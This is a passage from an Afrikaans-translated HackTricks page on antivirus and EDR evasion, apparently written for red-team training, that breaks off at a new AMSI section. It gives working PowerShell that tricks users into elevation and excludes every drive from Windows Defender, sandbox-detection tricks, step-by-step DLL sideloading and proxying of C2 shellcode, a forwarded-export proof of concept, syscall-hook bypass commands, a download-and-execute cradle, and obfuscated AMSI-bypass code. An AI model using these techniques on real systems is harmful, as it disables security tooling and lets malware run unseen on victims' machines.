

# Antivirus (AV)-omseiling

{{#include ../banners/hacktricks-training.md}}

**Hierdie bladsy is aanvanklik geskryf deur** [**@m2rc_p**](https://twitter.com/m2rc_p)**!**

## Stop Defender

- [defendnot](https://github.com/es3n1n/defendnot): ’n Hulpmiddel om te keer dat Windows Defender werk.
- [no-defender](https://github.com/es3n1n/no-defender): ’n Hulpmiddel om te keer dat Windows Defender werk deur voor te gee dat dit ’n ander AV is.
- [Deaktiveer Defender as jy admin is](basic-powershell-for-pentesters/README.md)

### UAC-lokmiddel in installer-styl voordat daar met Defender gepeuter word

Openbare loaders wat hulle as game cheats voordoen, word dikwels as ongetekende Node.js/Nexe-installers versprei wat eers **die gebruiker vra om te verhoog** en Defender dan onskadelik maak. Die proses is eenvoudig:

1. Toets vir administratiewe konteks met `net session`. Die opdrag slaag slegs wanneer die gebruiker admin-regte het, dus dui ’n mislukking daarop dat die loader as ’n standaardgebruiker loop.
2. Herbegin dit onmiddellik met die `RunAs`-werkwoord om die verwagte UAC-toestemmingsversoek te aktiveer, terwyl die oorspronklike opdragreël behoue bly.

```powershell
if (-not (net session 2>$null)) {
    powershell -WindowStyle Hidden -Command "Start-Process cmd.exe -Verb RunAs -WindowStyle Hidden -ArgumentList '/c ""`<path_to_loader`>""'"
    exit
}
```

Slagoffers glo reeds dat hulle “gekraakte” sagteware installeer, so die prompt word gewoonlik aanvaar, wat die malware die regte gee wat dit nodig het om Defender se beleid te verander.<sup>[[26]](#references)</sup>

### Omvattende `MpPreference`-uitsluitings vir elke skyfletter

Sodra dit verhoogde regte het, maksimeer GachiLoader-styl-kettings Defender se blinde kolle eerder as om die diens heeltemal af te skakel. Die loader beëindig eers die GUI-waghond (`taskkill /F /IM SecHealthUI.exe`) en voeg dan **uiters breë uitsluitings** by sodat elke gebruikersprofiel, stelselgids en verwyderbare skyf nie geskandeer kan word nie:

```powershell
$targets = @('C:\Users\', 'C:\ProgramData\', 'C:\Windows\')
Get-PSDrive -PSProvider FileSystem | ForEach-Object { $targets += $_.Root }
$targets | Sort-Object -Unique | ForEach-Object { Add-MpPreference -ExclusionPath $_ }
Add-MpPreference -ExclusionExtension '.sys'
```

Sleutelwaarnemings:

- Die lus loop deur elke gemonteerde lêerstelsel (D:\, E:\, USB-stokkies, ens.), dus word **enige toekomstige payload wat enige plek op die skyf geplaas word, geïgnoreer**.
- Die uitsluiting van die `.sys`-uitbreiding is toekomsgerig—aanvallers behou die opsie om later ongetekende drywers te laai sonder om Defender weer aan te raak.
- Alle veranderinge word onder `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions` aangebring, sodat latere fases kan bevestig dat die uitsluitings behoue bly of dit kan uitbrei sonder om UAC weer te aktiveer.

Omdat geen Defender-diens gestop word nie, rapporteer eenvoudige gesondheidstoetse steeds “antivirus aktief”, selfs al raak intydse inspeksie nooit daardie paaie nie.<sup>[[26]](#references)</sup>

## **AV Evasion Methodology**

Tans gebruik AV's verskillende metodes om na te gaan of 'n lêer kwaadwillig is: statiese opsporing, dinamiese ontleding en, vir die meer gevorderde EDR's, gedragsontleding.

### **Statiese opsporing**

Statiese opsporing word bereik deur bekende kwaadwillige stringe of byte-reekse in 'n binêre lêer of skrip te merk, en ook deur inligting uit die lêer self te onttrek (bv. lêerbeskrywing, maatskappynaam, digitale handtekeninge, ikoon, kontrolesom, ens.). Dit beteken dat die gebruik van bekende openbare gereedskap jou makliker kan laat uitken, aangesien dit waarskynlik ontleed en as kwaadwillig gemerk is. Daar is 'n paar maniere om hierdie soort opsporing te omseil:

- **Enkripsie**

As jy die binêre lêer enkripteer, sal AV nie jou program kan opspoor nie, maar jy sal 'n soort loader nodig hê om die program te dekripteer en in die geheue uit te voer.

- **Obfuskasie**

Soms hoef jy net 'n paar stringe in jou binêre lêer of skrip te verander om dit verby AV te kry, maar dit kan tydrowend wees, afhangend van wat jy probeer obfuskeer.

- **Pasgemaakte gereedskap**

As jy jou eie gereedskap ontwikkel, sal daar geen bekende slegte handtekeninge wees nie, maar dit verg baie tyd en moeite.

> [!TIP]
> 'n Goeie manier om teen Windows Defender se statiese opsporing te toets, is [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). Dit verdeel basies die lêer in verskeie segmente en laat Defender dan elkeen afsonderlik skandeer. Só kan dit jou presies wys watter stringe of grepe in jou binêre lêer gemerk is.

Ek beveel sterk aan dat jy hierdie [YouTube-snitlys](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf) oor praktiese AV Evasion gaan kyk.

### Offline PE-kenmerktoetse vir statiese klassifiseerders

Verpakte of geënkripteerde payload-grepe is net een invoer vir 'n statiese klassifiseerder. EMBER2024 onttrek PE-kenmerke, insluitend invoere, uitvoere, seksies, opskrifte en Authenticode-data.<sup>[[48]](#references)</sup> In een loader-eksperiment het die byvoeging van 141 invoere wat onskuldig gelyk het, die EMBER2024-kwaadwillige telling met 93% verlaag, terwyl invoere wat met malware geassosieer word dit verhoog het. Dit is 'n resultaat vir daardie model en daardie voorbeelde, nie 'n betroubare omseiling van 'n spesifieke AV/EDR-produk nie.<sup>[[50]](#references)</sup>

Vir 'n gemagtigde loader-toets, hou die payload en uitvoeringspad konstant, verander een beoogde bouveranderlike per variant en vergelyk tellings vanlyn. Ondersoek die gevolglike PE-kenmerke, want 'n bouverandering kan meer as een kenmerkgroep beïnvloed.<sup>[[49]](#references)[[50]](#references)</sup> Om beoogde invoere in die IAT te behou, roep die gekose Win32-API's vanuit bereikbare kode aan. Wissel die keuse af en versprei aanroeppunte oor bouweergawes, eerder as om 'n vaste kamoefleerfunksie te skep wat 'n handtekening kan word. Die eksperiment het ook laer tellings gerapporteer met geldige kodeondertekening, uitvoerinskrywings en meer funksies wat `.pdata` vergroot; ongeldige ondertekening het min effek gehad, en die `.pdata`-effek was klein.<sup>[[50]](#references)</sup>

Die `thrember`-pakket bied kenmerkonttrekking en maatstafmodelle. Nadat jy dit geïnstalleer het, gebruik `thrember.download_models("models")` met 'n bestaande `models`-lêergids en voer dan die tellinginstrument vanuit sy ouerlêergids uit: die aflaai-helper verander die huidige werkgids. Die PE-klassifiseerder kan 'n gids met bouweergawes gradeer sonder om dit by 'n skanderingsdiens in te dien:<sup>[[48]](#references)</sup>

```python
from pathlib import Path
import lightgbm as lgb
import thrember

model = lgb.Booster(model_file="models/EMBER2024_PE.model")
for sample in sorted(Path("builds").glob("*.exe")):
    print(sample, thrember.predict_sample(model, sample.read_bytes()))
```

Hou die model- en kenmerkonttrekkerversies vas tydens die vergelyking. ’n Laer vanlyn telling wys net hoe hierdie klassifiseerder op die veranderde binêre lêer reageer; dit bewys nie ontduiking van gedragsanalise, emulasie of ’n verskaffer se ander model nie.<sup>[[49]](#references)[[50]](#references)</sup> Sien die aparte uitvoeringsmodel vir [polimorfisme per bou en kamoeflering van die buitenste binêre lêer in gevirtualiseerde payloads](virtualized-payload-execution.md#camouflaging-the-outer-go-executable).

### **Dinamiese analise**

Dinamiese analise is wanneer die AV jou binêre lêer in ’n sandbox laat loop en vir kwaadwillige aktiwiteit dophou (bv. wanneer dit jou blaaier se wagwoorde probeer dekripteer en lees, ’n minidump van LSASS uitvoer, ens.). Hierdie deel kan ’n bietjie moeiliker wees om mee te werk, maar hier is ’n paar dinge wat jy kan doen om sandboxes te ontduik.

- **Wag voor uitvoering** Afhangend van hoe dit geïmplementeer is, kan dit ’n uitstekende manier wees om AV se dinamiese analise te omseil. AV’s het baie min tyd om lêers te skandeer sonder om die gebruiker se werkvloei te onderbreek, dus kan lang wagtye die analise van binêre lêers ontwrig. Die probleem is dat baie AV-sandboxes die wagtyd eenvoudig kan oorslaan, afhangend van hoe dit geïmplementeer is.
- **Kontroleer die masjien se hulpbronne** Sandboxes het gewoonlik baie min hulpbronne beskikbaar (bv. < 2GB RAM), anders kan hulle die gebruiker se masjien vertraag. Jy kan ook baie kreatief raak; jy kan byvoorbeeld die CPU-temperatuur of selfs die waaierspoed nagaan. Nie alles sal in die sandbox geïmplementeer wees nie.
- **Masjienspesifieke kontroles** As jy ’n gebruiker wil teiken wie se werkstasie aan die "contoso.local"-domein gekoppel is, kan jy die rekenaar se domein nagaan om te sien of dit ooreenstem met die een wat jy gespesifiseer het. As dit nie ooreenstem nie, kan jy jou program laat afsluit.

Dit blyk dat Microsoft Defender se sandbox-rekenaarnaam HAL9TH is. Jy kan dus die rekenaarnaam in jou malware nagaan voordat dit ontplof. As die naam HAL9TH is, beteken dit dat jy binne Defender se sandbox is, en kan jy jou program laat afsluit.

<figure><figcaption><p>bron: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Nog ’n paar baie goeie wenke van [@mgeeky](https://twitter.com/mariuszbit) om sandboxes te omseil

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev-kanaal</p></figcaption></figure>

Soos ons vroeër in hierdie plasing gesê het, sal **publieke tools** uiteindelik **opgespoor word**, dus moet jy jouself iets afvra:

As jy byvoorbeeld LSASS wil dump, **moet jy regtig mimikatz gebruik**? Of kan jy ’n ander, minder bekende projek gebruik wat ook LSASS dump?

Laasgenoemde is waarskynlik die regte antwoord. As ons mimikatz as voorbeeld neem: dit is waarskynlik een van, indien nie die mees gemerkte stuk malware deur AV’s en EDR’s nie. Hoewel die projek self baie cool is, is dit ook ’n nagmerrie om daarmee te werk om AV’s te omseil. Soek dus bloot alternatiewe vir wat jy probeer bereik.

> [!TIP]
> Wanneer jy jou payloads vir ontduiking wysig, maak seker dat jy **outomatiese voorbeeldindiening** in Defender **afskakel**. En asseblief, ernstig, **MOENIE NA VIRUSTOTAL OPlaai NIE** as jou doel is om ontduiking op die lange duur te bereik. As jy wil kyk of ’n bepaalde AV jou payload opspoor, installeer dit op ’n VM, probeer om outomatiese voorbeeldindiening af te skakel en toets dit daar totdat jy tevrede is met die resultaat.

## EXEs vs DLLs

Waar moontlik, **gee altyd voorkeur aan DLLs vir ontduiking**. Volgens my ervaring word DLL-lêers gewoonlik **baie minder opgespoor** en ontleed. Dit is dus ’n baie eenvoudige truuk om in sommige gevalle opsporing te vermy (as jou payload natuurlik op een of ander manier as ’n DLL kan loop).

Soos ons in hierdie beeld kan sien, het ’n DLL-payload van Havoc ’n opsporingskoers van 4/26 op antiscan.me, terwyl die EXE-payload ’n opsporingskoers van 7/26 het.

<figure><figcaption><p>antiscan.me-vergelyking van ’n gewone Havoc EXE-payload met ’n gewone Havoc DLL</p></figcaption></figure>

Nou wys ons ’n paar truuks wat jy met DLL-lêers kan gebruik om baie meer onopsigtelik te wees.

## DLL Sideloading & Proxying

**DLL Sideloading** benut die DLL-soekvolgorde wat die loader gebruik deur die slagoffertoepassing en kwaadwillige payload(s) langs mekaar te plaas.

Jy kan programme opspoor wat vatbaar is vir DLL Sideloading met [Siofra](https://github.com/Cybereason/siofra) en die volgende PowerShell-skrip:

```bash
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```

Hierdie opdrag sal die lys van programme in "C:\Program Files\\" wat kwesbaar is vir DLL hijacking, en die DLL-lêers wat hulle probeer laai, uitvoer.

Ek beveel sterk aan dat jy **self programme verken wat vir DLL Hijacking/Sideloading vatbaar is**. Hierdie tegniek is redelik stealthy wanneer dit behoorlik uitgevoer word, maar as jy publiek bekende programme gebruik wat DLL Sideloading toelaat, kan jy maklik uitgevang word.

As jy bloot ’n kwaadwillige DLL plaas met die naam van ’n DLL wat ’n program verwag om te laai, sal jou payload nie laai nie, aangesien die program sekere funksies in daardie DLL verwag. Om hierdie probleem op te los, sal ons ’n ander tegniek genaamd **DLL Proxying/Forwarding** gebruik.

**DLL Proxying** stuur die oproepe wat ’n program maak vanaf die proxy (en kwaadwillige) DLL na die oorspronklike DLL, en behou sodoende die program se funksionaliteit terwyl dit ons payload kan uitvoer.

Ek gaan die [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy)-projek van [@flangvik](https://twitter.com/Flangvik/) gebruik.

Dit is die stappe wat ek gevolg het:

```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```

Die laaste opdrag sal vir ons 2 lêers oplewer: ’n DLL-bronkodesjabloon en die oorspronklike hernoemde DLL.

<figure><figcaption></figcaption></figure>

```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```

Hier is die resultate:

<figure><figcaption></figcaption></figure>

Beide ons shellcode (geënkodeer met [SGN](https://github.com/EgeBalci/sgn)) en die proxy DLL het ’n Detection rate van 0/26 op [antiscan.me](https://antiscan.me)! Ek sou dit ’n sukses noem.

<figure><figcaption></figcaption></figure>

> [!TIP]
> Ek **beveel sterk aan** dat jy [S3cur3Th1sSh1t se twitch VOD](https://www.twitch.tv/videos/1644171543) oor DLL Sideloading kyk, asook [ippsec se video](https://www.youtube.com/watch?v=3eROsG_WNpE), om meer te leer oor wat ons bespreek het.

### Misbruik van Forwarded Exports (ForwardSideLoading)

Windows PE-modules kan funksies uitvoer wat eintlik “forwarders” is: in plaas daarvan om na kode te wys, bevat die export-inskrywing ’n ASCII-string in die vorm `TargetDll.TargetFunc`. Wanneer ’n caller die export oplos, sal die Windows-loader:

- `TargetDll` laai as dit nog nie gelaai is nie
- `TargetFunc` daaruit oplos

Belangrike gedrag om te verstaan:
- As `TargetDll` ’n KnownDLL is, word dit vanuit die beskermde KnownDLLs-namespace verskaf (bv. ntdll, kernelbase, ole32).<sup>[[15]](#references)</sup>
- As `TargetDll` nie ’n KnownDLL is nie, word die normale DLL-soekvolgorde gebruik, wat die gids insluit van die module wat die forward-resolusie uitvoer.

Dit maak ’n indirekte sideloading-primitief moontlik: vind ’n getekende DLL wat ’n funksie uitvoer wat na ’n module met ’n naam wat nie ’n KnownDLL is nie, geforward word, en plaas dan dié getekende DLL saam met ’n aanvaller-beheerde DLL wat presies dieselfde naam as die geforwarde teikenmodule het. Wanneer die geforwarde export aangeroep word, los die loader die forward op en laai jou DLL vanuit dieselfde gids, wat jou DllMain uitvoer.<sup>[[13]](#references)</sup>

Voorbeeld waargeneem op Windows 11:

```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```

`NCRYPTPROV.dll` is nie ’n KnownDLL nie, dus word dit via die normale soekvolgorde opgelos.

PoC (kopieer-plak):
1) Kopieer die ondertekende stelsel-DLL na ’n skryfbare vouer
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) Plaas 'n kwaadwillige `NCRYPTPROV.dll` in dieselfde vouer. 'n Minimale `DllMain` is genoeg om kode-uitvoering te verkry; jy hoef nie die aangestuurde funksie te implementeer om `DllMain` te aktiveer nie.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
    }
    return TRUE;
}
```
3) Aktiveer die forward met 'n getekende LOLBin:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```

Waargenome gedrag:
- rundll32 (signed) laai die side-by-side `keyiso.dll` (signed)
- Terwyl `KeyIsoSetAuditingInterface` opgelos word, volg die loader die forward na `NCRYPTPROV.SetAuditingInterface`
- Die loader laai dan `NCRYPTPROV.dll` vanaf `C:\test` en voer sy `DllMain` uit
- As `SetAuditingInterface` nie geïmplementeer is nie, kry jy eers ’n "missing API"-fout nadat `DllMain` reeds uitgevoer is

Soekwenke:
- Fokus op forwarded exports waar die teikenmodule nie ’n KnownDLL is nie. KnownDLLs word gelys onder `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`.
- Jy kan forwarded exports met nutsmiddels soos die volgende lys:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- Sien die Windows 11-aanstuurderinventaris om kandidate te soek: https://hexacorn.com/d/apis_fwd.txt<sup>[[14]](#references)</sup>

Idees vir opsporing/verdediging:
- Monitor LOLBins (bv. rundll32.exe) wat getekende DLLs vanaf nie-stelsel-paaie laai, gevolg deur die laai van nie-KnownDLLs met dieselfde basisnaam vanaf daardie gids
- Stel waarskuwings in vir proses-/modulekettings soos: `rundll32.exe` → nie-stelsel-`keyiso.dll` → `NCRYPTPROV.dll` onder paaie wat deur gebruikers geskryf kan word
- Dwing kode-integriteitsbeleide af (WDAC/AppLocker) en weier skryf+uitvoer in toepassingsgidse

## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze is a payload toolkit for bypassing EDRs using suspended processes, direct syscalls, and alternative execution methods`

Jy kan Freeze gebruik om jou shellcode op ’n versteekte manier te laai en uit te voer.

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

<figure><figcaption></figcaption></figure>

> [!TIP]
> Evasion is bloot ’n kat-en-muis-speletjie; wat vandag werk, kan môre opgespoor word. Moet dus nooit op net een hulpmiddel staatmaak nie. Probeer, indien moontlik, verskeie evasion-tegnieke aan mekaar koppel.

## Direct/Indirect Syscalls & SSN-resolusie (SysWhispers4)

EDR’s plaas dikwels **user-mode inline hooks** op `ntdll.dll`-syscall-stubs. Om hierdie hooks te omseil, kan jy **direct** of **indirect** syscall-stubs genereer wat die korrekte **SSN** (System Service Number) laai en na kernel mode oorskakel sonder om die gehaakte export entrypoint uit te voer.<sup>[[32]](#references)</sup>

**Aanroepopsies:**
- **Direct (embedded)**: voeg ’n `syscall`/`sysenter`/`SVC #0`-instruksie by die gegenereerde stub (geen toegang tot ’n `ntdll`-export nie).
- **Indirect**: spring na ’n bestaande **syscall gadget** binne `ntdll`, sodat dit lyk of die oorgang na kernel mode van `ntdll` afkomstig is (nuttig om heuristiese opsporing te ontduik); **randomized indirect** kies ’n gadget uit ’n poel vir elke aanroep.
- **Egg-hunt**: vermy die inbedding van die statiese `0F 05`-opcode-volgorde op skyf; vind ’n syscall-volgorde tydens looptyd.

**Hook-bestande SSN-resolusiestrategieë:**
- **FreshyCalls (VA sort)**: lei SSN’s af deur syscall-stubs volgens virtuele adres te sorteer, eerder as om stub-grepe te lees.
- **SyscallsFromDisk**: karteer ’n skoon `\KnownDlls\ntdll.dll`, lees SSN’s uit sy `.text` en ontkarteer dit daarna (omseil alle hooks in geheue).
- **RecycledGate**: kombineer VA-gesorteerde SSN-afleiding met opcode-validering wanneer ’n stub skoon is; val terug op VA-afleiding as dit gehaak is.
- **HW Breakpoint**: stel DR0 op die `syscall`-instruksie en gebruik ’n VEH om die SSN tydens looptyd uit `EAX` vas te vang, sonder om gehaakte grepe te ontleed.

Voorbeeld van SysWhispers4-gebruik:
```bash
# Indirect syscalls + hook-resistant resolution
python syswhispers.py --preset injection --method indirect --resolve recycled

# Resolve SSNs from a clean on-disk ntdll
python syswhispers.py --preset injection --method indirect --resolve from_disk --unhook-ntdll

# Hardware breakpoint SSN extraction
python syswhispers.py --functions NtAllocateVirtualMemory,NtCreateThreadEx --resolve hw_breakpoint
```

Wanneer skoon x64-`ntdll`-syscall-uitvoere vir ’n SSN ontleed word, moet beide `4C 8B D1 B8` (`mov r10, rcx; mov eax, imm32`) en dieselfde reeks voorafgegaan deur `F3 0F 1E FA` (`endbr64`) aanvaar word. Laasgenoemde is ’n CET-voorafgegaan stub: ’n parser wat aanneem dat die SSN altyd op een vaste offset is, sal dit mis. As indirekte syscall-inisialisering misluk en die loader terugval op `GetProcAddress`, kan oproepe deur daardie uitvoere weer user-mode hooks teëkom.<sup>[[54]](#references)</sup>

### Alternatiewe syscall-uitvoere in `tprtdll.dll`

Die projek meld dat `tprtdll.dll` ’n Microsoft-ondertekende DLL is wat in `C:\Windows\System32\` voorkom op Windows 11-bou 26100 en later. Dit het aparte kodeadresse van `ntdll.dll`, dus sal ’n hook wat slegs ’n `ntdll`-syscall-entrypoint patch, nie die ooreenstemmende `tprtdll`-stub patch nie. Anders as die SSN-resolusiemetodes hierbo, laai hierdie benadering `tprtdll.dll` en roep ’n beskikbare `Nt*`- of `Zw*`-uitvoer direk aan deur `GetProcAddress`. Maak seker dat die DLL en vereiste uitvoere bestaan, en gebruik die toepaslike NT-funksieprototipes.<sup>[[55]](#references)</sup>

Die self-injection PoC gebruik `tprtdll!NtAllocateVirtualMemoryEx` om RW-geheue toe te ken, kopieer grepe met `memcpy`, verander die streek na RX met `tprtdll!ZwProtectVirtualMemory`, en begin ’n thread met `tprtdll!RtlCreateUserThread`.<sup>[[56]](#references)</sup> Die kruisproses-variant benodig ’n toeganklike teikenproses-handle en gebruik `WriteProcessMemory` vir die kopie.<sup>[[57]](#references)</sup> Die projek se uitvoerinventaris bevat nie `NtOpenProcess`, `NtWriteVirtualMemory` en `NtCreateThreadEx` nie, dus kan nie elke injection-operasie ’n alternatiewe uitvoer gebruik nie.<sup>[[55]](#references)</sup>

Die PoC bewys nie dat `RtlCreateUserThread` ’n direkte syscall-stub is, of dat sy interne oproepe `ntdll`-hooks vermy bloot omdat die uitvoer vanaf `tprtdll` opgelos is nie.<sup>[[56]](#references)</sup> Die kruisproses-voorbeeld sluit ook `WinExec`- en `ExitThread`-adresse in wat in die injector opgelos is; daardie adresse moet geldig wees in die teiken sodat die voorbeeld se payload kan werk.<sup>[[57]](#references)</sup>

Dit omseil slegs hooks wat beperk is tot die ooreenstemmende `ntdll`-uitvoere; dit verberg nie die syscalls vir monitering op kernvlak nie.<sup>[[55]](#references)</sup> Sien [Thread Name-Calling and Waiting Thread Hijacking](windows-process-injection-thread-name-calling-waiting-thread-hijacking.md) vir ’n injection-roete wat eerder skryfbewerkings na afgeleë prosesse en nuwe threads vermy.

## AMSI (Anti-Malware Scan Interface)

AMSI is geskep om "[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)" te voorkom. Aanvanklik kon AV’s slegs **lêers op skyf** skandeer, dus kon die AV niks doen om dit te voorkom as jy payloads op een of ander manier **direk in die geheue** kon uitvoer nie, aangesien dit nie genoeg sigbaarheid gehad het nie.

Die AMSI-funksie is in hierdie Windows-komponente geïntegreer.

- Gebruikersrekeningbeheer, of UAC (verheffing van EXE-, COM- of MSI-lêers, of ActiveX-installasie)
- PowerShell (scripts, interaktiewe gebruik en dinamiese kode-evaluering)
- Windows Script Host (wscript.exe en cscript.exe)
- JavaScript en VBScript
- Office VBA-makro’s

Dit stel antivirusoplossings in staat om scriptgedrag te inspekteer deur scriptinhoud in ’n vorm beskikbaar te stel wat ongeënkripteer en ongeobfuskeer is.

As jy `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` uitvoer, sal dit die volgende waarskuwing in Windows Defender veroorsaak.

<figure><figcaption></figcaption></figure>

Let op hoe dit `amsi:` voorafvoeg, gevolg deur die pad na die uitvoerbare lêer waaruit die script uitgevoer is; in hierdie geval, powershell.exe

Ons het geen lêer na skyf geskryf nie, maar is steeds in die geheue opgespoor weens AMSI.

Verder word C#-kode, vanaf **.NET 4.8**, ook deur AMSI verwerk. Dit raak selfs `Assembly.Load(byte[])` wanneer dit gebruik word om in-geheue-uitvoering te laai. Daarom word dit aanbeveel om laer weergawes van .NET (soos 4.7.2 of vroeër) vir in-geheue-uitvoering te gebruik as jy AMSI wil ontduik.

Daar is ’n paar maniere om AMSI te omseil:

- **Obfuscation**

Aangesien AMSI hoofsaaklik met statiese opsporing werk, kan die wysiging van die scripts wat jy probeer laai ’n goeie manier wees om opsporing te ontduik.

AMSI kan egter scripts deobfuskeer, selfs al het hulle verskeie lae; obfuscation kan dus ’n swak opsie wees, afhangend van hoe dit gedoen word. Dit maak ontduiking nie juis eenvoudig nie. Soms hoef jy egter net ’n paar veranderlike name te verander en dan sal dit werk; dit hang dus af van hoe sterk iets gemerk is.

- **AMSI Bypass**

Omdat AMSI geïmplementeer word deur ’n DLL in die powershell-proses (ook cscript.exe, wscript.exe, ens.) te laai, is dit maklik om daarmee te peuter, selfs wanneer jy as ’n onbevoorregte gebruiker werk. Weens hierdie fout in die implementering van AMSI het navorsers verskeie maniere gevind om AMSI-skandering te ontduik.

**Dwing ’n fout af**

As AMSI-inisialisering gedwing word om te misluk (amsiInitFailed), sal geen skandering vir die huidige proses begin word nie. Dit is oorspronklik deur [Matt Graeber](https://twitter.com/mattifestation) bekend gemaak, en Microsoft het ’n signature ontwikkel om wydverspreide gebruik te voorkom.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Al wat nodig was, was een reël PowerShell-kode om AMSI onbruikbaar te maak vir die huidige PowerShell-proses. Hierdie reël is natuurlik deur AMSI self gemerk, dus is ’n wysiging nodig om hierdie tegniek te gebruik.

Hier is ’n aangepaste AMSI-bypass wat ek by hierdie [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) gekry het.

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
      $fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Hou in gedagte dat dit waarskynlik gemerk sal word sodra hierdie plasing verskyn, dus moet jy geen kode publiseer as jou plan is om onopgemerk te bly nie.

**Memory Patching**

Hierdie tegniek is aanvanklik deur [@RastaMouse](https://twitter.com/_RastaMouse/) ontdek. Dit behels dat die adres van die funksie "AmsiScanBuffer" in amsi.dll (wat verantwoordelik is vir die skandering van gebruiker-verskafde invoer) opgespoor word en dat dit oorskryf word met instruksies om die kode vir E_INVALIDARG terug te gee. Só sal die resultaat van die werklike skandering 0 teruggee, wat as ’n skoon resultaat geïnterpreteer word.

> [!TIP]
> Lees asseblief [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) vir ’n meer gedetailleerde verduideliking.

Daar is ook baie ander tegnieke wat gebruik word om AMSI met powershell te omseil. Kyk na [**hierdie bladsy**](basic-powershell-for-pentesters/index.html#amsi-bypass) en [**hierdie repo**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) om meer daaroor te leer.

### AMSI COM scan-pointer-herleiding in plaas van `AmsiScanBuffer`-patching

